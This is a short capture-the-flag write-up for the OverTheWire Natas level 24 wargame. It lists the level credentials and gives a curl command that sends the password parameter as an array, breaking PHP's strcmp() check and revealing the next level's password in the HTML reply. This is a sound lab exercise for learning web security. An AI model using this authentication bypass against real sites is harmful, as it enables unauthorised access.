 # Natas24

*	user: `natas24`
*	pass: `OsRmXFguozKpTZZ5X14zNO43379LZveg`
*	url: [http://natas24.natas.labs.overthewire.org](http://natas24:OsRmXFguozKpTZZ5X14zNO43379LZveg@natas24.natas.labs.overthewire.org)
*	flag: `GHF6X7YwACaYYssHVY05cFq83hRktl4c`

## Procedure

$ curl -XGET -u natas24:OsRmXFguozKpTZZ5X14zNO43379LZveg http://natas24.natas.labs.overthewire.org/?passwd%5b%5d
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas24", "pass": "OsRmXFguozKpTZZ5X14zNO43379LZveg" };</script></head>
<body>
<h1>natas24</h1>
<div id="content">

Password:
<form name="input" method="get">
    <input type="text" name="passwd" size=20>
    <input type="submit" value="Login">
</form>

<br />
<b>Warning</b>:  strcmp() expects parameter 1 to be string, array given in <b>/var/www/natas/natas24/index.php</b> on line <b>23</b><br />
<br>The credentials for the next level are:<br><pre>Username: natas25 Password: GHF6X7YwACaYYssHVY05cFq83hRktl4c</pre>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>



